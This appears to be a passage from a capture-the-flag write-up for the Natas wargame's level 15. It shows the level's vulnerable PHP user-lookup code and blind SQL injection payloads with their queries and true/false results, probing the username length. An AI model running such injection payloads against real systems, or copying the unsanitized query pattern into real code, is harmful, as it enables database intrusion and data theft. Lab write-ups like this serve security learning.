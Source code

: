 ```markup
    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

blind sql injection

```text
Input  : natas16  
Query  : SELECT * from users where username="natas16"  
Result : true
```

```text
Input  : natas16" AND "1"="1  
Query  : SELECT * from users where username="natas16" AND "1"="1"  
Result : true
```

A good next thing to know whould be the password lenght. Lets first test the username lenght.

Testing username lenght  
We should get a 'This user exists.' if the lenght of username is 7.

```text
input  : natas16" AND (SELECT LENGTH(username) FROM users WHERE username="natas16" LIMIT 1)=1#   
Query  : SELECT * from users where username="natas16" AND (SELECT LENGTH(username) FROM users WHERE username="natas16" LIMIT 1)=1#  
Result : false
```

```text
input  : natas16" AND (SELECT LENGTH(username) FROM users WHERE username="natas16" LIMIT 1)=7#  
Query  : SELECT * from users where username="natas16" AND (SELECT LENGTH(username) FROM users WHERE username="natas16" LIMIT 1)=7#  
Result : true
```
